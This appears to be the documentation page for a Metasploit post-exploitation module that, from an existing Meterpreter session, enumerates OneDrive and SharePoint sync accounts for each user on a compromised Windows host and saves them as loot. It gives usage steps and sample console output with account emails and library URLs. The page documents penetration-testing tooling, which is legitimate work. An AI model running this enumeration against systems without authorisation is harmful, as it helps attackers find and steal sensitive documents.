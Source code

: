 ## Vulnerable Application

  This module lists the Microsoft 365 Sharepoint/Onedrive endpoints that are being synchronised
  by the OneDrive application on a target Windows system. It will attempt to do this for every
  local user on the system (subject to permissions) and will also create a CSV with the
  results in loot.

  A user can only have one OneDrive personal account synchronised, but can have many business
  accounts synchronised. In addition, within the business accounts, there can be several 'teamsites'
  (for example, MS Teams document libraries).

  These listings can highlight document libraries or repositories that contain sensitive information,
  or simply provide an additional source of information during an engagement.

## Verification Steps

  1. Start `msfconsole`
  2. Gain a Meterpreter session on a Windows system running OneDrive.
  3. Type: `use post/windows/gather/enum_onedrive`
  4. Type: `set SESSION <session id>`
  5. Type: `run`

## Options

### SESSION

The session to run the module on.

## Scenarios

### Windows 10 x64 v2004 With OneDrive Installed But No Accounts
```
msf exploit(multi/handler) > use post/windows/gather/enum_onedrive 
msf post(windows/gather/enum_onedrive) > show options

Module options (post/windows/gather/enum_onedrive):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.

msf post(windows/gather/enum_onedrive) > set SESSION 2 
SESSION => 2
msf post(windows/gather/enum_onedrive) > run

[-] Error loading USER S-1-5-21-3917347361-1576396349-327053466-1000: Profile doesn't exist or cannot be accessed
[-] Error loading USER S-1-5-21-3917347361-1576396349-327053466-1001: Profile doesn't exist or cannot be accessed
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1000
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1000) OneDrive not installed.
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1001
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1001) OneDrive not installed.
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1002
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1002) OneDrive not installed.

[*] Post module execution completed
msf post(windows/gather/enum_onedrive) >
```

### Windows 10 x64 v2004 With OneDrive Installed and One Business and One Personal Account

```
msf exploit(multi/handler) > use post/windows/gather/enum_onedrive 
msf post(windows/gather/enum_onedrive) > set SESSION 3 
SESSION => 3
msf post(windows/gather/enum_onedrive) > run

[-] Error loading USER S-1-5-21-3917347361-1576396349-327053466-1000: Profile doesn't exist or cannot be accessed
[-] Error loading USER S-1-5-21-3917347361-1576396349-327053466-1001: Profile doesn't exist or cannot be accessed
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1000
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1000) No OneDrive accounts found.
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1001
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1001) No OneDrive accounts found.
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1002
[+] OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1002

  Business1
  =========

    Business: 1
    ServiceEndpointUri: https://testing33sdf-my.sharepoint.com/personal/test_testing33sdf_onmicrosoft_com/_api
    SPOResourceId: https://testing33sdf-my.sharepoint.com/
    UserEmail: test@testing33sdf.onmicrosoft.com
    UserFolder: C:\Users\normal\OneDrive - Foobar Notes
    UserName: test test

    | LibraryType: mysite
    | LastModifiedTime: 2021-01-27T22:11:09
    | MountPoint: C:\Users\normal\OneDrive - Foobar Notes
    | UrlNamespace: https://testing33sdf-my.sharepoint.com/personal/test_testing33sdf_onmicrosoft_com/Documents/

  Personal
  ========

    UserEmail: giziw21000@jentrix.com
    UserFolder: C:\Users\normal\OneDrive

    | LibraryType: personal
    | LastModifiedTime: 2021-01-27T21:16:04
    | MountPoint: C:\Users\normal\OneDrive
    | UrlNamespace: https://d.docs.live.net

[+] OneDrive sync information saved to /home/gwillcox/.msf4/loot/20210129095922_default_172.18.30.231_onedrive.syncinf_606475.txt in CSV format.
[*] Post module execution completed
msf post(windows/gather/enum_onedrive) > 
```

### Windows 10 x64 v2004 With OneDrive Installed and One Business and One Personal Account, But One Account Is Orphaned
```
msf exploit(multi/handler) > use post/windows/gather/enum_onedrive 
msf post(windows/gather/enum_onedrive) > set SESSION 3 
SESSION => 3
msf post(windows/gather/enum_onedrive) > run

[-] Error loading USER S-1-5-21-3917347361-1576396349-327053466-1000: Profile doesn't exist or cannot be accessed
[-] Error loading USER S-1-5-21-3917347361-1576396349-327053466-1001: Profile doesn't exist or cannot be accessed
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1000
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1000) No OneDrive accounts found.
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1001
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1001) No OneDrive accounts found.
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1002
[+] OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1002

  Personal
  ========

    UserEmail: giziw21000@jentrix.com
    UserFolder: C:\Users\normal\OneDrive

    | LibraryType: personal
    | LastModifiedTime: 2021-01-27T21:16:04
    | MountPoint: C:\Users\normal\OneDrive
    | UrlNamespace: https://d.docs.live.net

  ORPHANED
  ========

  LibraryType: mysite
  LastModifiedTime: 2021-01-27T22:11:09
  MountPoint: C:\Users\normal\OneDrive - Foobar Notes
  UrlNamespace: https://testing33sdf-my.sharepoint.com/personal/test_testing33sdf_onmicrosoft_com/Documents/

[+] OneDrive sync information saved to /home/gwillcox/.msf4/loot/20210129101238_default_172.18.30.231_onedrive.syncinf_127262.txt in CSV format.
[*] Post module execution completed
msf post(windows/gather/enum_onedrive) > 
```
